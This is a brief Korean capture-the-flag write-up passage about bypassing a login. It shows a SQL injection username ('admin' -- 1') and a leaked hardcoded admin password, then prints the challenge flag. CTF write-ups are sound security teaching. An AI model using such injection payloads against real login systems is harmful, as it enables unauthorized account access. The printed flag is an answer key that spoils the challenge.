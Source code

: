 이를 활용해 직접 로그인이 가능함

|

|

|

## Exploit

### 방법 1

```python
username: admin' -- 1

password: 1
```

|

|

### 방법 2

```js
username: admin

password: strong_admin_password_it_cant_be_leak
```

|

|

### FLAG

```
K0{y3s_1'm_4dm1n!!}
```

|

---
